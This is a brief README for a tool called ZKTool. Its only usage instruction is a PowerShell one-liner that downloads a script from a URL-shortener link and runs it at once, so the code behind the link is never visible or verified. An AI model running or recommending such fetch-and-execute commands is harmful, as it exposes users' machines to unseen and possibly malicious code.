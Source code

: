 
# ZKTool

Start Date: July 7 2021  




## Usage

```powershell
Irm 'https://rb.gy/ng4nh' | Iex
```


## Screenshots

[//]: # (Old App Design https://i.imgur.com/fOOfTsy.png)

[//]: # (Old App Design https://i.imgur.com/Roh4t0a.png)

[//]: # (Old App Design https://i.imgur.com/NyIGReh.png)

![App Screenshot](https://i.imgur.com/POz2q91.png)


